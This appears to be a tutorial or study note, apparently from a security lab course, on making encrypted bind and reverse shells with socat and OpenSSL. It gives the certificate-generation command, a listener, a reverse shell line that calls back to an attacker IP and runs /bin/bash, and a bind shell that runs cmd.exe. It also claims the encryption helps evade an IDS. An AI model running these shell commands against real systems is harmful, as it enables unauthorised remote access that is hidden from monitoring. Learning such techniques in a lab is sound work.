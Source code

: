 ## Introduction
- One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse.
- Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.

**Note** - We covered how to create basic shells in the previous task, so that syntax will not be covered again here. Suffice to say that any time `TCP` was used as part of a command, this should be replaced with `OPENSSL` when working with encrypted shells.

**We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:**
```python
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
- `openssl`: This is a command-line tool for working with SSL/TLS certificates and keys.
- `req`: This option tells OpenSSL to generate a certificate signing request (CSR) and a self-signed certificate.
    
- `--newkey rsa:2048`: This generates a new RSA key of 2048 bits (a type of cryptographic key).
    
- `-nodes`: This option specifies that the generated private key should not be encrypted with a passphrase. It means the key will not require a password to be used.
    
- `-keyout shell.key`: This specifies the filename where the generated private key will be saved. In this case, it will be saved in a file named "shell.key."
    
- `-x509`: This option tells OpenSSL to create a self-signed certificate instead of a certificate signing request.
    
- `-days 362`: This sets the validity period of the self-signed certificate to 362 days, which is just under a year.
    
- `-out shell.crt`: This specifies the filename where the generated self-signed certificate will be saved. In this case, it will be saved in a file named "shell.crt."
The command will prompt you to provide some information for the certificate (like country, organization, etc.), but you can leave them blank or fill them randomly if you wish.

**We then need to merge the two created files into a single `.pem` file:**
```python
cat shell.key shell.crt > shell.pem
```
- `cat`: This is a command that concatenates (combines) files together.
    
- `shell.key shell.crt`: These are the names of the two files you want to combine: "shell.key" (the private key) and "shell.crt" (the self-signed certificate).
    
- `>`: This symbol redirects the output of the `cat` command to a new file.
`.pem` is a common format for storing certificates and private keys.

#### Now, when we set up our reverse shell listener, we use:
```python
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```
- `socat`: This is the command itself, used for establishing bidirectional data streams between two endpoints.
    
- `OPENSSL-LISTEN:<PORT>`: This part tells socat to listen on the specified `<PORT>` for incoming connections using the OpenSSL protocol.
    
- `cert=shell.pem`: This option specifies the SSL/TLS certificate file to be used for secure communication. In this case, the certificate file is named "shell.pem," which is the file we generated earlier using the `openssl` command.
    
- `verify=0`: This option sets the certificate verification level. In this case, `verify=0` means that certificate verification is turned off, and the client connecting to this socat listener will not need to present a valid certificate.
    
- `-`: The hyphen at the end represents that socat should send the data received from the incoming connection to the standard output (stdout) of the terminal.

**To connect back, we would use:**
```python
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

#### The same technique would apply for a bind shell:
Target:
```python
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

Attacker:
```python
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

**Note** - for a Windows target, the certificate must be used with the listener.

## Below example
- The following image shows an OPENSSL Reverse shell from a Linux target.
- As usual, the target is on the right, and the attacker is on the left:

